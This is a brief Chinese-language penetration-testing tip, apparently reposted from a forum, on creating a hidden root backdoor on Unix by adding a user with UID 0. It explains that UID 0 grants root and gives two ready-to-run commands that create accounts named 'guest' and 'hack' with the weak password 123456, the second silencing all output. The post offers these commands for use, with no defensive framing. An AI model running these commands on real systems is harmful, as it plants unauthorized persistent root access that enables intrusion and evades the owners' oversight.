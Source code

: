 # uid 0用户添加

> 原文：[https://www.zhihuifly.com/t/topic/3501](https://www.zhihuifly.com/t/topic/3501)

## uid 0用户添加

在 Unix 体系下，UID 为 0 就是 root 权限。所以渗透的时候可以添加一个 UID 为 0 的用户作为后门。

```
useradd -p `openssl passwd 123456`  -o -u 0 guest
/usr/sbin/useradd -o -u 0 hack &>/dev/null && echo hack:123456 | /usr/sbin/chpasswd &>/dev/null 
```

![image](img/f422dc548b58ae809e25d7a2a2a77db1.png)